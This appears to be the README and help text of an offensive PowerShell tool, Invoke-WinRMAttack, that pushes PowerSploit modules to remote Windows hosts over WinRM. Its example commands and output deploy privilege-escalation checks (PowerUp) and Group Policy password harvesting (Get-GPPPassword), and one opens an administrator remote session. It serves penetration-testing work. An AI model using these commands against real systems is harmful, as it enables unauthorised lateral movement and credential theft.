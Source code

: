 # Invoke-WinRMAttack
PowerShell cmdlet to push PowerShell attack modules to a remote system via PSRemoting and if required enable WinRM remotely.

Help examples below;


Requires -version 2

    <#
            .Synopsis
            Push a PowerShell module to a remote system

            .Description
            This cmdlet will take a path to a single .ps1 script, Push it via the WINRM/PSREmoting communication channel and execute or install in memory

            .Parameter remote
            Target system

            .Parameter modulepath
            Full path to the module .ps1 script ot push to the remote system

            .Parameter creds
            Credentials to access the remote system

            .Parameter autoconnect
            Automatically connect to the remote PSSession

            Written by Dave Hardy, davehardy20@gmail.com @davehardy20
            Help from Ben Turner @benpturner

            Version 0.2

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Privesc\PowerUp.ps1 -creds

            Creating a PSSession to the Remote System
            Pushing the Module to the Remote System
            To connect to the session later, use Invoke-WinRMAttack -autoconnect

            Creates a New PSSession to the Remote system and Pushes the specified module via the remoting session communication channel and executes the script, in this case the PowerUp module.

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Exfiltration\Get-GPPPassword.ps1 -creds

            Remote Session exists
            Pushing the Module to the Remote System
            To connect to the session later, use Invoke-WinRMAttack -autoconnect

            Checks for the remote session and as it exists, just pushes the module to the remote system via the remoting communication channel.

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.0.108 -creds -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Privesc\PowerUp.ps1 -autoconnect
            
            Creating a PSSession to the Remote System
            Pushing the Module to the Remote System
            Connecting to Remote Session

            Do everything and connect ot the remote PSSession

    
            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -creds -autoconnect
            Remote Session exists
            No module specified to push
            Connecting to Remote Session

            Connects to a remote session and allows the operator to run commands

            [192.168.134.10]: PS C:\Users\Administrator\Documents> get-help Invoke-AllChecks

            NAME
            Invoke-AllChecks
    
            SYNOPSIS
            Runs all functions that check for various Windows privilege escalation opportunities.
    
    
            SYNTAX
            Invoke-AllChecks [-HTMLReport] [<CommonParameters>]
    
    
            DESCRIPTION
    

            RELATED LINKS

            REMARKS
            To see the examples, type: "get-help Invoke-AllChecks -examples".
            For more information, type: "get-help Invoke-AllChecks -detailed".
            For technical information, type: "get-help Invoke-AllChecks -full".


    #>